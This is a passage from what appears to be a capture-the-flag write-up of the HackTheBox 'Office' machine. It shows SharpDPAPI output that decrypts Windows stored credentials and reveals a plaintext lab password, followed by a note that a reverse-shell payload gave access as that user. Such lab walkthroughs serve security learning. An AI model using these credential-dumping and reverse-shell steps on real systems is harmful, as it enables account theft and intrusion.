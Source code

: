 ```shell
    description      : Enterprise Credential Data

    LastWritten      : 5/9/2023 2:08:54 PM
    TargetName       : LegacyGeneric:target=MyTarget
    TargetAlias      : 
    Comment          : 
    UserName         : MyUser
    Credential       : 

  CredFile           : 84F1CAEEBF466550F4967858F9353FB4

    guidMasterKey    : {191d3f9d-7959-4b4d-a520-a444853c47eb}
    size             : 398
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    LastWritten      : 5/9/2023 4:03:21 PM
    TargetName       : Domain:interactive=OFFICE\HHogan
    TargetAlias      : 
    Comment          : 
    UserName         : OFFICE\HHogan
    Credential       : H4ppyFtW183#

  CredFile           : E76CCA3670CD9BB98DF79E0A8D176F1E

    guidMasterKey    : {10811601-0fa9-43c2-97e5-9bef8471fc7d}
    size             : 374
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    LastWritten      : 1/18/2024 11:53:30 AM
    TargetName       : Domain:interactive=office\hhogan
    TargetAlias      : 
    Comment          : 
    UserName         : office\hhogan
    Credential       : 



SharpDPAPI completed in 00:00:00.2319211
```


![](/assets/images/HTB-Writeup-Office/Pasted image 20240619210210.png)

- Great! The pentester obtained a new credential pair (`HHogan`:`H4ppyFtW183#`). Afterwards, they achieved a reverse shell as `HHogan` using the same `revshmet.exe` payload.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619213111.png)
